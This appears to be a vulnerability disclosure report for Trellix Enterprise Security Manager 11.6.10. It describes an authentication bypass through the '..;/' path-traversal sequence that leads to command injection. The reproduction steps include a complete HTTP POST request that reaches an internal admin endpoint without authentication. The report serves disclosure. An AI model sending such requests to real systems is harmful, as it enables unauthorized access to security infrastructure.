 This configuration permits unintended external access to internal paths by leveraging the `..;/` traversal sequence, which bypasses typical directory restrictions. This technique is further explained in **Breaking Parser Logic: Take Your Path Normalization Off and Pop 0days Out** by Orange Tsai at Black Hat USA 2018 ([source](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)). The `..;/` sequence bypasses common path validation checks, making it possible to access restricted internal APIs. Combined with command injection vulnerabilities, this leads to a critical security risk.

---

## Product reports - releases affected:
Wherever possible, please test against the latest released version.
  * Tested on Trellix Enterprise Security Manager version 11.6.10 (Linux)
  * Other versions may also be affected (please verify)

---

## Website reports - browsers verified in:
Please provide the full URL.
  * Tested via HTTP requests (no specific browser required)

---

## Steps to reproduce:
1. Access the `/rs/..;/Snowservice/SnowflexAdminServices/CreateNode` endpoint without authentication to confirm unauthenticated access.
2. Submit a request to the `CreateNode` endpoint to verify unauthorized path traversal access to the internal API.
3. Exploit command injection via the `ManageNode` endpoint to execute commands with root privileges.

### Step 1: Unauthenticated API Access via Path Traversal

The following request demonstrates unauthenticated access to the internal API:

#### Request Example:
```http
POST /rs/..;/Snowservice/SnowflexAdminServices/CreateNode HTTP/1.0
Host: [ESM IP]
Accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Content-Length: 118

{
    "serverName": "test132", 
    "ip": "127.0.0.1",
    "port": "1212",
    "peerPort": "1210"
}
```
